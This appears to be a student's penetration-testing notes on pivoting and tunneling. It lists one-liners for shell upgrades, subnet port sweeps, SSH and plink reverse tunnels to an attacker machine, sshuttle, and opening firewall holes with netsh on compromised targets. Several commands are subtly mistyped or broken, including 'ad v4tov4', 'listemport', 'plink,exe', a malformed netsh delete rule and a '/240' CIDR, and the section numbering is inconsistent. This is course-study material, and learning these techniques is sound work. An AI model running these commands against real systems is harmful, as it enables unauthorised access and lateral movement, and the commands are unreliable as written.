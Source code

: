 ## Section 2 Port Forwarding With Linux Tools 
### 18.2.3 Port Forwarding With Socat
- Example of a socat tunnel
```
socat -ddd TCP-LISTEN:2345;fork TCP:<TARGETIP>:5432(INTERNAL INFO)
```

## Section 3 SSH Tunneling
### 18.3.1 SSH Local Port Forwarding
- Upgrade a shell if it has python with 
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
- The following is a bash for loop to sweep for hosts with an open port 445 on a /24 subnet
```
for i in $(seq 1 254); do nc -zv -w 1 IP.$i 445; done
```
- SSH local port forward is executed on the target machine 
	- The first address is the listening socket that will be bound to the ssh client machine 
	- The second is where we want to forward the packets to
	- Example on the WAN device run
```
ssh -N -L 0.0.0.0:4455:<TARGET_IP>:445
```
### 18.3.2 Dynamic Port Forwarding
- Dynamic port forward with 
```
ssh -N -D 0.0.0.0:9999 <TARGET_USER>@<TARGET_IP>
```
- THEN 
	- edit proxychains.conf 
	- THEN
		- run proxychains before your command
### 18.3.3 Remote Port Forwarding
- ssh remote port forward option is -R and takes two arguments 
	- First is the listening socket then the forwarding socket
	- Example 
	- On target machine
```
ssh -N -R 127.0.0.1:2345:<TARGET_IP>:<TARGET_PORT> kali@<MY_IP>
```
- THEN example of a command after this is established with pgsql
```
psql -h 127.0.0.1 -p 2345 -U postgres
```
### 18.3.4 Remote Dynamic Port Forwarding
- In remote dynamic port forwarding you only pass one argument whic is the socket you want to listen to on the ssh server 
- Example 
```
ssh -N -R 9998 kali@<MY_IP>
```
- Example command from my machine 
```
proxychains nmap -vvv -sT --top-ports=20 -Pn -n <TARGET_IP>
```
### 18.3.5 Using sshuttle
- sshuttle requires root privileges and python3 on the server 
	- This essentially creates a vpn 
	- You use it by specifying the ssh connection you want to use as well as the subnets you want to tunnel through the connection like 
- On the target machine 
```
socat TCP-LISTEN:2222,fork TCP:<TARGET_IP>:<TARGET_PORT>
```
- On my machine
```
sshuttle -r <TARGET_USER?@<TARGET_IP>:<PORT> <TARGET_IP/CIDR (10.0.50.0/240) <OTHER_TARGET_IP/CIDR>
```
- Example command on my computer after this 
```
smbclient -L //<TARGET_IP>/ -U <USER_NAME> --password=<PASSWORD>
```
## Section 4 Port Forwarding with Windows Tools 
### 16.4.1 ssh.exe 
- xfreerdp one liner 
```
xfreerdp /u:<USER_NAME> /p:<PASSWORD> /v:<TARGET_IP>
```
- plink.exe is a cli putty but does not have remote dynamic port forwarding 
- plink one liner for rdp access
```
C:\Windows\Temp\plink,exe -ssh -l kali -pw kali -R 127.0.0.1:9833:127.0.0.1:3389 <TARGET_IP>
```
- On my machine run 
```
xfreerdp /u:<USER_NAME> /p:<PASSWORD> /v:127.0.0.1:9833
```
### 18.4.3 Netsh
- netsh one-liner for ssh tunneling
```
netsh interface portproxy ad v4tov4 listemport=2222 listenaddress=<COMPUTER_IP> connectport=<TARGET_PORT> connectaddress=TARGET_IP>
```
- Example command from my computer 
```
sudo nmap -sS <COMPUTER_IP> -Pn -n -p2222
```
- To poke a hole in the firewall to allow a connection with netsh the one-liner on the target machine is 
```
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=<COMPUTER_IP> localport=2222 action=allow
```
- Delete the firewall rule with the following command 
```
netsh advfirewall delete rule name="port_forward_ssh_2222"
```
- Delete port proxy with netsh that was created with the following one-liner
```
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=<COMPUTER_IP>
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)
